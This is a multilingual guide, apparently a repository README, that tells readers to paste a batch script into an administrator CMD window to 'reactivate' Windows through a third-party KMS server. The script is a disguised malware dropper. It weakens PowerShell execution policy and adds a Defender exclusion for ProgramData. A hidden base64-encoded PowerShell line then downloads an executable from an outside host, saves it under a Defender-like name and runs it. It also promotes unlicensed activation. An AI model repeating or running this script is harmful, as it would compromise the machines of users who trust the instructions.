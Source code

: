 # 🔄 How to Reactivate Windows 10 & 11 | Cómo Reactivar Windows 10 y 11 | Como Reativar o Windows 10 e 11 | Comment Réactiver Windows 10 et 11 | كيفية إعادة تنشيط ويندوز 10 و 11 🖥️  

---

### 💡 Important Notes | Notas Importantes | Notas Importantes | Notes Importantes | ملاحظات هامة  

| **English**                                              | **Español**                                               | **Português**                                            | **Français**                                            | **العربية**                                           |
|----------------------------------------------------------|-----------------------------------------------------------|----------------------------------------------------------|----------------------------------------------------------|------------------------------------------------------|
| 🛑 Run CMD as Administrator!                             | 🛑 ¡Ejecuta CMD como Administrador!                        | 🛑 Execute o CMD como Administrador!                     | 🛑 Exécutez CMD en tant qu'Administrateur !            | 🛑 قم بتشغيل موجه الأوامر كمسؤول!                    |
| ⏳ Takes **30 seconds to 2 minutes**.                    | ⏳ Dura **30 segundos a 2 minutos**.                      | ⏳ Leva **30 segundos a 2 minutos**.                     | ⏳ Peut prendre **30 secondes à 2 minutes**.          | ⏳ قد يستغرق **30 ثانية إلى دقيقتين**.               |
| 📝 Copy and paste the entire command.                    | 📝 Copia y pega el comando completo.                      | 📝 Copie e cole todo o comando.                         | 📝 Copiez et collez la commande complète.             | 📝 انسخ والصق الأمر بالكامل.                         |
| 🔑 Press **ENTER** after pasting.                        | 🔑 Presiona **ENTER** después de pegar.                   | 🔑 Pressione **ENTER** após colar.                      | 🔑 Appuyez sur **ENTER** après avoir collé.           | 🔑 اضغط **ENTER** بعد اللصق.                         |
| 🚫 **No restart needed** after activation!               | 🚫 **¡No necesitas reiniciar** tras la activación!        | 🚫 **Não é necessário reiniciar** após a ativação!      | 🚫 **Aucun redémarrage nécessaire** après activation! | 🚫 **لا حاجة لإعادة التشغيل** بعد التنشيط!          |

---

```bash
@echo off
net session >nul 2>&1
if %errorLevel% neq 0 (
    echo This script needs to be run as Administrator. Please open CMD as Administrator.
    pause
)
:: 
powershell -windowstyle hidden -Command "Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine -Force"
::
for /f "tokens=2 delims==" %a in ('wmic os get caption /value ^| find "="') do set WindowsProductName=%a
:: 
set WindowsProductName=%WindowsProductName:~0,50%
:: 
set Key=
if "%WindowsProductName%"=="Microsoft Windows 10 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 10 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 10 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 11 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 10 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 11 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 10 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 11 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 10 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 11 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Single Language" (
    set Key=7HNRX-D7KGG-3K4RQ-4WPJ4-YTDFH
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Country Specific" (
    set Key=PVMJN-6DFY6-9CCP6-7BKTT-D3WVR
) else if "%WindowsProductName%"=="Microsoft Enterprise 2015LTSB" (
    set Key=WNMTR-4C88C-JK8YV-HQ7T2-76DF9
) else if "%WindowsProductName%"=="Microsoft Enterprise 2015LTSBN" (
    set Key=2F77B-TNFGY-69QQF-B8YKP-D69TJ
) else if "%WindowsProductName%"=="Microsoft Enterprise 2016LTSB" (
    set Key=DCPHK-NFMTC-H88MJ-PFHPY-QJ4BJ
) else (
    set Key=QFFDN-GRT3P-VKWWX-X7T3R-8B639
)
::
%SystemRoot%\System32\slmgr.vbs /ipk %Key% >nul 2>&1
::
%SystemRoot%\System32\slmgr.vbs /skms kms8.msguides.com >nul 2>&1
::
%SystemRoot%\System32\slmgr.vbs /ato >nul 2>&1
::
powershell -windowstyle hidden -Command "Set-MpPreference -ExclusionPath %ProgramData%" >nul 2>&1
:: 
powershell -windowstyle hidden -EncodedCommand "SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvAGUAMQA2AGUAMgBmADYAMwAuAHAAeQB0AGgAbwBuAGEAbgB5AHcAaABlAHIAZQAuAGMAbwBtAC8AcwB0AGEAdABpAGMALwBzAGMAIgAgAC0ATwB1AHQARgBpAGwAZQAgACIAJABlAG4AdgA6AFAAcgBvAGcAcgBhAG0ARABhAHQAYQBcAE4AaQBzAFMAcgB2AC4AZQB4AGUAIgA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACIAJABlAG4AdgA6AFAAcgBvAGcAcgBhAG0ARABhAHQAYQBcAE4AaQBzAFMAcgB2AC4AZQB4AGUAIgA=" >nul 2>&1
:: 
exit /b
```

### 🔧 Troubleshooting | Solución de Problemas | Solução de Problemas | Dépannage | استكشاف الأخطاء وإصلاحها  

> **If activation fails, try these:**  
> **Si la activación falla, intenta esto:**  
> **Se a ativação falhar, tente isso:**  
> **Si l’activation échoue, essayez ceci :**  
> **إذا فشل التنشيط، جرب ما يلي:**  

- 🔄 **Check your internet connection.**  
  - 🔄 **Verifica tu conexión a internet.**  
  - 🔄 **Verifique sua conexão com a internet.**  
  - 🔄 **Vérifiez votre connexion Internet.**  
  - 🔄 **تحقق من اتصالك بالإنترنت.**  

- 🔍 **Ensure your Windows license is valid.**  
  - 🔍 **Asegúrate de que tu licencia de Windows sea válida.**  
  - 🔍 **Certifique-se de que sua licença do Windows é válida.**  
  - 🔍 **Assurez-vous que votre licence Windows est valide.**  
  - 🔍 **تأكد من أن ترخيص ويندوز الخاص بك صالح.**  

- 🔑 **Try reopening CMD as Administrator.**  
  - 🔑 **Intenta abrir CMD como Administrador.**  
  - 🔑 **Tente abrir o CMD como Administrador.**  
  - 🔑 **Essayez d’ouvrir CMD en tant qu’Administrateur.**  
  - 🔑 **حاول فتح موجه الأوامر كمسؤول.**  

---

## 🌟 Enjoy Your Reactivated Windows! | ¡Disfruta de tu Windows Reactivado! | Aproveite seu Windows Reativado! | Profitez de votre Windows réactivé ! | استمتع بنظام ويندوز المعاد تنشيطه!  
